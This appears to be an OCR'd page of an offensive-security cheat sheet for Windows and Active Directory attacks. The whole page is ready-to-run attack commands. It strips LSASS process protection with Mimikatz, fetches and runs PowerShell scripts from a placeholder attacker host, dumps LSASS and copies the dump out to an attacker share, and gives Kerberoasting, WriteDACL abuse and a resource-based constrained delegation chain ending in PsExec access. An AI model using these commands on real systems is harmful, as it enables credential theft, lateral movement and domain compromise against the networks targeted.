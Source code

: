 
## Credential Access & PPL

```powershell
# Check PPL state
Get-ItemProperty -Path HKLM:\SYSTEM\CurrentControlSet\Control\Lsa -Name "RunAsPPL"

# Load driver & unprotect LSASS, then dump
net use \\<ATTACKER_IP>\share /u:kali kali
copy \\<ATTACKER_IP>\share\temp\mimidrv.sys .
IEX(New-Object Net.WebClient).DownloadString('http://<ATTACKER_IP>/Invoke-Mimikatz2.ps1')
Invoke-Mimikatz -Command "`"!processprotect /process:lsass.exe /remove`""
Invoke-Mimikatz -Command '"token::elevate" "sekurlsa::ekeys"'

# Minidump & exfil
curl -o MiniDump.exe http://<ATTACKER_IP>/MiniDump.exe
./MiniDump.exe
copy lsass.dmp \\<ATTACKER_IP>\share\temp\

# Offline parse
pypykatz lsa minidump lsass.dmp
```

---

## Kerberos & AD Attacks

### Kerberoasting (quick path)

```bash
# Identify SPN users then request TGS
impacket-GetUserSPNs <DOMAIN>/<USER> -dc-ip <DC_IP> -request -outputfile kerberoast_hashes.txt
```

### WriteDACL (grant rights to a group/object)

```powershell
IEX(New-Object Net.WebClient).DownloadString('http://<ATTACKER_IP>/PowerView.ps1')
Add-DomainObjectAcl -TargetIdentity <GROUP_OR_OBJECT> -PrincipalIdentity <USER_OR_SVC> -Rights All
net group <GROUP_OR_OBJECT> <USER_OR_SVC> /add /domain
```

### RBCD (Resource‑Based Constrained Delegation)

```powershell
New-MachineAccount -MachineAccount myComputer -Password $(ConvertTo-SecureString 'h4x' -AsPlainText -Force); Get-DomainComputer -Identity myComputer
$sid = Get-DomainComputer -Identity myComputer | Select -Expand objectsid; $SD = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList "O:BAD:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;$($sid))"; $SDbytes = New-Object byte[] ($SD.BinaryLength); $SD.GetBinaryForm($SDbytes,0)
Get-DomainComputer -Identity JUMP09 | Set-DomainObject -Set @{'msds-allowedtoactonbehalfofotheridentity'=$SDBytes}

$RBCDbytes = Get-DomainComputer JUMP09 | select -expand msds-allowedtoactonbehalfofotheridentity; $Descriptor = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList $RBCDbytes, 0; $Descriptor.DiscretionaryAcl
./rubeus.exe hash /password:h4x

# S4U → CIFS ticket, apply, access
.\rubeus.exe s4u /user:myComputer$ /rc4:<RC4_HASH> /impersonateuser:administrator /msdsspn:CIFS/JUMP09.LAB.LOCAL /ptt /outfile:C:\windows\tasks\kirbi.txt /nowrap
klist
ls \\JUMP09.LAB.LOCAL\c$
.\PsExec64.exe -accepteula \\JUMP09.LAB.LOCAL cmd
```
